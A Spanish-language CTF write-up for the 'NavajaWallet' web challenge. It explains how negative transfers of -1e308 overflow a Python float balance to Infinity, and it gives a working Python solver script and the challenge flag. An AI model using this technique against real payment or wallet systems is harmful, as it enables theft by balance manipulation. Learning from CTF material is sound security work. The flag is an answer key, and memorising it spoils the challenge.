 # NavajaWallet

> Navaja Negra CTF 2025

> 02/10/2025 09:00 CEST - 04/10/2025 11:00 CEST

* Categoría: Web
* Autor: eljoselillo7
* Dificultad: ★☆
* Etiquetas: Python infinity

## Descripción

    ¡La Wallet más loca de NavajaCoins ha llegado! 💸
    Guarda y transfiere tus monedas… y trata de no perder todo en el camino.

    ¿Tienes lo que hace falta para ser un maestro de la NavajaWallet? 🚀

## Archivos

    NavajaWallet.zip

## Resolución

La aplicación simula una cartera de criptomonedas de Navaja Negra. El objetivo es conseguir que todas las monedas de la cartera superen el millón de unidades. El problema es que el usuario inicial solo dispone de 1000 monedas de una de ellas.

A primera vista parece imposible, pero la clave está en la forma en la que la aplicación maneja los saldos: las cantidades se almacenan en formato float de Python.

### Análisis de la vulnerabilidad

En Python, los floats tienen un límite máximo cercano a `1.79e+308`. Si se sobrepasa ese valor, el resultado se convierte en `Infinity`.  

Las operaciones con este valor tienen un comportamiento peculiar:

- `Infinity - N = Infinity`
- `Infinity + N = Infinity`

Esto permite crear un saldo infinito en una de las monedas y luego transferirlo al resto hasta superar el millón.

Sin embargo, hay que tener cuidado:
- Si una moneda llega a `-Infinity`, ya no se puede recuperar.
- Cualquier operación del tipo `Infinity + (-Infinity)` devuelve `NaN`, lo que impediría resolver el reto y habría que empezar de nuevo.

### Explotación

Para forzar el overflow hacia `Infinity`, podemos realizar transferencias extremadamente grandes en negativo desde nuestra moneda inicial hacia las demás. Por ejemplo:

`transferir -1e308 miguelitoCoins → nocheNNCoin`
`transferir -1e308 miguelitoCoins → navajaCoin`  

De esta forma, la cantidad de `miguelitoCoins` se convierte en `Infinity`, mientras que el resto siguen en un valor manejable. 

A partir de ahí, solo necesitamos sumar desde Infinity hasta que cada moneda supere el millón.

El reto puede resolverse fácilmente con un script en Python que automatice las transferencias y logre que todas las monedas lleguen al valor requerido:

```python
import sys
import requests

if len(sys.argv) != 2:
    print("Uso: python3 solver.py <URL_BASE>")
    print("Ejemplo: python3 solver.py http://example.com:5000")
    sys.exit(1)

BASE_URL = sys.argv[1].rstrip("/")  # Asegura que no termine en "/"

session = requests.Session()  # Mantiene cookies (JWT)

session.get(f"{BASE_URL}/")

transfers = [
    ("miguelitoCoin", "nocheNNCoin", "-1e308"),
    ("miguelitoCoin", "navajaCoin", "-1e308"),
    ("miguelitoCoin", "navajaCoin", "1e308"),
    ("miguelitoCoin", "navajaCoin", "1e308"),
    ("miguelitoCoin", "nocheNNCoin", "1e308"),
    ("miguelitoCoin", "nocheNNCoin", "1e308"),
]

for source, target, amount in transfers:
    resp = session.post(f"{BASE_URL}/transfer", json={
        "source": source,
        "target": target,
        "amount": amount
    })
    print(resp.text)

# Ahora intentar obtener el FLAG
flag_resp = session.get(f"{BASE_URL}/flag")
print(flag_resp.text)
```

> **flag: nnctf{gRaC1a5_p0r_tU_Inf1nit4_inversion}**